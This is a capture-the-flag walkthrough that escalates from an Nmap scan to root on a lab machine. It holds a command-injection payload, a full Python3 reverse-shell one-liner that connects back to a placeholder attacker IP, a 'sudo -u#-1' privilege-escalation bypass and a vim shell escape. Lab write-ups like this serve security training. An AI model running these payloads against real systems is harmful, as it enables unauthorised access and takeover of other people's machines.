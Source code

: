 # CTF Challenge Writeup

## Challenge Overview
In this challenge, you need to use a combination of tools and techniques to find hidden information and extract the final flag.

## Steps to Solve the Challenge

### Step 1: Scan the IP with Nmap
First, you need to scan the target IP address to find open ports. Use Nmap to perform this scan.

```bash
nmap -sV <target-ip>
```

### Step 2: Access the Web Server on Port 8080
Navigate to the web server running on port 8080.

```bash
http://<target-ip>:8080
```

### Step 3: Execute a Command
Use the web interface to execute a command. For example, list the files in the current directory.

```sh
\';ls ; echo '1+1
```

### Step 4: Establish a Reverse Shell in Python3
Execute a reverse shell command to gain a shell on the target machine.

```sh
; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-ip",12345));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### Step 5: Check Sudo Permissions
Check the sudo permissions to see if you can run `42sh` as the user `manu`.

```sh
sudo -l
```

### Step 6: Run `42sh` as `manu`
Run `42sh` with sudo to gain elevated privileges.

```sh
sudo -u manu /home/manu/42sh -p
```

### Step 7: Check Sudo Permissions Again
Check the sudo permissions again to see if you can run `vim` as `manu`.

```sh
sudo -l
```

### Step 8: Run `vim` with Sudo
Run `vim` with sudo to gain elevated privileges.

```sh
sudo -u#-1 /usr/bin/vi /home/manu/user.txt
```

### Step 9: Get a Shell from `vim`
Once inside `vim`, execute a shell command to get a root shell.

```vim
:!bash
```

### Step 10: Find the `root.txt` File in `/root`
Navigate to the `/root` directory and find the `root.txt` file.

```sh
cd /root
cat root.txt
```